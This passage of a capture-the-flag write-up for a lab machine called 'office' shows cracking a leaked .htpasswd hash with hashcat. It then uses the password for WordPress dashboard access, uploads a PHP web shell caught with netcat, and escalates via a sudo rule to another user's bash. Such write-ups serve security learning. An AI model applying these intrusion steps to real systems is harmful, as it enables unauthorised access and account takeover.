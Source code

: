 Ok now we got `wp_user : password` but that is not very useful yet

we look for other files...

Lol `.htpasswd` got dwight creds...but hashed

```
dwight:$apr1$7FARE4DE$lKgF/R9rSUEY6s.L79/dM/ 
```
its md5 APR (hashcat mode 1600)

and we get `dwight : cowboys1`

we use `dwight@office.csl` with that password to get to the wordpress dashboard

## Exploitation

Upload a [PHP shell](/csl/office/shell.php) in the WP file manager and get access on a netcat listenner

(maybe we could use the plugins too but we would have to format our php file as a wp plugin and zip it...tedious)

Visit `http://office.csl/shell.php` to get inside..."the office"

```
$ cd /home/dwight
$ ls
access.txt
$ cat access.txt
access_flag_here
```

## privilege escalation

we have write permissions to his `.ssh` folder

```
$ sudo -l
Matching Defaults entries for www-data on office:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on office:
    (dwight) NOPASSWD: /bin/bash
```

and we can switch to dwight lol

```
$ sudo -u dwight /bin/bash
whoami
dwight
python3 -c 'import pty;pty.spawn("/bin/bash")'
dwight@office:~/.ssh$
```

Generate new `ssh keys` for dwight
